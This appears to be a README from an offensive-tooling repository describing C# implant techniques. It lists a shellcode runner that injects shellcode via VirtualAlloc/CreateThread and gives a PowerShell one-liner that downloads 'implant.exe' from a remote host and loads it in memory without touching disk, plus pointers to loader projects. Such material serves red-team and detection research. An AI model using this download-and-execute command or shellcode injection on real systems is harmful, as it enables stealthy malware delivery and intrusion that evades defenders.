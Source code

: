 <p align="center">
  <img src="../_resources/img/0003.png">
</p>

# C#

### Table of Contents
  * [Examples](#examples)
  * [Execution](#execution)

## Examples
| File                                           | Description                                                                              |
|------------------------------------------------|------------------------------------------------------------------------------------------|
| [shellcode_runner.cs](src/shellcode_runner.cs) | Inject shellcode into current process using ```VirtualAlloc```/```CreateThread```. |

## Execution
* Simplify execution using PowerShell to Load .Net assemblies without touching disk:
```
$data = (New-Object System.Net.WebClient).DownloadData('http://10.0.0.1/implant.exe');
[System.Reflection.Assembly]::Load($data);
[<program_name>.Program]::Main(<parameters>);
```

* Alternatively, projects such as [EAPrimer](https://github.com/m8r0wn/EAPrimer) and [NetLoader](https://github.com/Flangvik/NetLoader) can be used as well. 